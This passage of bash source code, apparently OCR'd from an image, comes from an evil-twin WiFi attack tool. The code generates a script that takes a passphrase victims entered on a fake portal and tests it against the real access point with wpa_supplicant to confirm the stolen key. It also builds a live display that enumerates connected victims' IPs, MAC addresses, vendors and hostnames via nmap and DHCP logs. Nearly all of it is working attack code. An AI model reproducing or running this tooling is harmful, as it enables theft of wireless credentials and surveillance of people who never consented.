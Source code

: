                 wpa_passphrase $Host_SSID \$(cat $DUMP_PATH/data.txt)>$DUMP_PATH/wpa_supplicant.conf &
                wpa_supplicant -i$WIFI -c$DUMP_PATH/wpa_supplicant.conf -f $DUMP_PATH/loggg &

                if [ -f $DUMP_PATH/intento ]; then

                if grep -i 'WPA: Key negotiation completed' $DUMP_PATH/loggg; then
                echo \"2\">$DUMP_PATH/intento
                break
                else
                echo \"1\">$DUMP_PATH/intento
                fi

                fi
                ">>$DUMP_PATH/handcheck
        fi

        echo "readarray -t CLIENTESDHCP < <(nmap -PR -sn -n -oG - $RANG_IP.100-110 2>&1 | grep Host )

        echo
        echo -e \"  ACCESS POINT:\"
        echo -e \"    SSID............: "$white"$Host_SSID"$transparent"\"
        echo -e \"    MAC.............: "$yellow"$Host_MAC"$transparent"\"
        echo -e \"    Channel.........: "$white"$Host_CHAN"$transparent"\"
        echo -e \"    Vendor..........: "$green"$Host_MAC_MODEL"$transparent"\"
        echo -e \"    Operation time..: "$blue"\$ih\$horas:\$im\$minutos:\$is\$segundos"$transparent"\"
        echo -e \"    Attempts........: "$red"\$(cat $DUMP_PATH/hit.txt)"$transparent"\"
        echo -e \"    Clients.........: "$blue"\$(cat $DUMP_PATH/clientes.txt | grep DHCPACK | awk '{print \$5}' | sort| uniq | wc -l)"$transparent"\"
        echo
        echo -e \"  CLIENTS ONLINE:\"

        x=0
        for cliente in \"\${CLIENTESDHCP[@]}\"; do
          x=\$((\$x+1))
          CLIENTE_IP=\$(echo \$cliente| cut -d \" \" -f2)
          CLIENTE_MAC=\$(nmap -PR -sn -n \$CLIENTE_IP 2>&1 | grep -i mac | awk '{print \$3}' | tr [:upper:] [:lower:])

          if [ \"\$(echo \$CLIENTE_MAC| wc -m)\" != \"18\" ]; then
                CLIENTE_MAC=\"xx:xx:xx:xx:xx:xx\"
          fi

          CLIENTE_FABRICANTE=\$(macchanger -l | grep \"\$(echo \"\$CLIENTE_MAC\" | cut -d \":\" -f -3)\" | cut -d \" \" -f 5-)

          if echo \$CLIENTE_MAC| grep -q x; then
                    CLIENTE_FABRICANTE=\"unknown\"
          fi

          CLIENTE_HOSTNAME=\$(grep \$CLIENTE_IP $DUMP_PATH/clientes.txt | grep DHCPACK | sort | uniq | head -1 | grep '(' | awk -F '(' '{print \$2}' | awk -F ')' '{print \$1}')

          echo -e \"    $green \$x) $red\$CLIENTE_IP $yellow\$CLIENTE_MAC $transparent($blue\$CLIENTE_FABRICANTE$transparent) $green \$CLIENTE_HOSTNAME$transparent\"
        done
